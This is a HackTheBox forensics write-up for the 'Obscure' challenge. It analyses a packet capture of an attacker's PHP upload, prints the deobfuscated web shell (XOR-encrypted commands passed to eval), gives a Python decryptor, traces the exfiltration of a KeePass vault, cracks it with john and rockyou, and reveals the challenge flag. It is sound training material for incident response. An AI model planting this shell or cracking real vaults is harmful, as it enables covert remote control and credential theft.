

# [HackTheBox - Obscure](https://app.hackthebox.com/challenges/Obscure)
Created: 21/07/2024 12:28
Last Updated: 21/07/2024 15:11
***
**DIFFICULTY**: Easy
**CATEGORY**: Forensics
**CHALLENGE DESCRIPTION** 
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.
***
## Where should we start?


Lets take a look of what we have right now, we have 3 files which are
- `19-05-21_22532255.pcap`, this should be the main file that we are going to investigate
- `support.php` contains obfuscated php script 

- `to-do.txt` contains text which is the same as challenge description so we can skip this one

## Unravel obfuscated php script


Paste obfuscated php code to https://www.unphp.net/ then we will have some variables and functions restored


Next, we can use CyberChef "Generic Code Beautiy" recipe to beautify it and now we can carefully review what this script does

Here a script with comments explaining every steps by ChatGPT
```
// Key and marker definitions
$k = "80e32263";            // XOR encryption key
$kh = "6f8af44abea0";        // Start marker for the encrypted payload in the input
$kf = "351039f4a7b5";        // End marker for the encrypted payload in the input
$p = "0UlYyJHG87EJqEz6";     // Prefix used in the response

// Function for XOR encryption/decryption
function x($t, $k) {
    $c = strlen($k);         // Length of the key
    $l = strlen($t);         // Length of the text to be encrypted/decrypted
    $o = "";                 // Output string

    // Loop through each character of the text
    for($i = 0; $i < $l; ) {
        // Loop through each character of the key
        for($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            // XOR each character of the text with the key
            $o .= $t[$i] ^ $k[$j];
        }
    }

    return $o;               // Return the result
}

// Check if the input contains the markers and extract the payload
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1)  {
    @ob_start();             // Start output buffering

    // Decode, decrypt, and decompress the payload, then execute it
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));

    $o = @ob_get_contents(); // Get the output of the executed payload
    @ob_end_clean();         // End output buffering and clean it

    // Compress, encrypt, and encode the output
    $r = @base64_encode(@x(@gzcompress($o), $k));

    // Print the result with the markers
    print("$p$kh$r$kf");
}
```

So we need to making some sense of request that an attacker sent to a server and response of a server to that request so I told ChatGPT make me a script to decrypt them here
```
import base64
import re
import zlib

def xor_decrypt(data, key):
    """
    Decrypts the given data using the XOR cipher with the provided key.
    """
    key_len = len(key)
    data_len = len(data)
    decrypted = bytearray(data_len)
    
    for i in range(data_len):
        decrypted[i] = data[i] ^ key[i % key_len]
    
    return bytes(decrypted)

def decrypt_input(encrypted_data, key, kh, kf):
    """
    Decrypts the input data following the pattern defined by the markers kh and kf.
    """
    # Extract the base64 encoded and encrypted payload using regex
    match = re.search(f"{kh}(.+){kf}", encrypted_data)
    if match:
        b64_encrypted_payload = match.group(1)
    else:
        print("No valid data found")
        return None
    
    # Add padding to the base64 string if necessary
    missing_padding = len(b64_encrypted_payload) % 4
    if missing_padding:
        b64_encrypted_payload += '=' * (4 - missing_padding)
    
    # Base64 decode the encrypted payload
    try:
        encrypted_payload = base64.b64decode(b64_encrypted_payload)
    except Exception as e:
        print(f"Base64 decoding error: {e}")
        return None

    # XOR decrypt the payload
    decrypted_payload = xor_decrypt(encrypted_payload, key.encode())

    # Decompress the payload
    try:
        decompressed_payload = zlib.decompress(decrypted_payload)
        return decompressed_payload.decode()
    except zlib.error as e:
        print(f"Decompression error: {e}")
        return decrypted_payload.decode()

def main():
    # Define the markers and key
    kh = "6f8af44abea0"
    kf = "351039f4a7b5"
    key = "80e32263"
    
    while True:
        encrypted_data = input("Enter the encrypted data: ").strip()
        if not encrypted_data:
            break
        
        decrypted_data = decrypt_input(encrypted_data, key, kh, kf)
        if not decrypted_data:
            print("Failed to decrypt data.")
        else:
            print("Decrypted data:", decrypted_data)
        
        # Ask the user if they want to decrypt more data
        choice = input("Do you want to decrypt more data? (yes/no): ").strip().lower()
        if choice == 'no':
            break

if __name__ == "__main__":
    main()
```

## Following the PCAP
Now its time to dig into a pcap file and see what happened during that time


We can see that at the start of this pcap, an attacker used `/upload.php` to upload malicious php script to server


By using `http contains "support.php"`, we will have only 4 HTTP streams to investigate which are
- HTTP stream of packet number 20

Threat Actor changing directory to `/var/www/html/uploads` then use `id` to display current user information which responded back with `www-data`
- HTTP stream of packet number 426

Threat Actor changing directory to `/var/www/html/uploads` then uses `ls -lah /home/* 2>&1` to list all files and subdirectories in `/home/` directory which we can see that there is a password vault for KeePass in `/home/developer`
- HTTP stream of packet number 442

Threat Actor changing directory to `/home/developer` and confirms that he got the right directory 
- HTTP stream of packet number 462

Then threat actor finally exfiltrated KeePass password vault file in base64 format


So we know whats going on now, we just have to restore KeePass password vault file and Im doing this with CyberChef


But we could not open this file without master password or key file so we have to figure it out how to obtain either one of them first

## Breaking the vault


Luckily for us we can use `keepass2john` and `john` to bruteforcing possible password from `rockyou.txt` wordlist which we can see that we found master password to unlock password vault


Now we can open password vault and obtain a flag which is the password of this user 

## Submit a flag
```
HTB{pr0tect_y0_shellZ}
```


***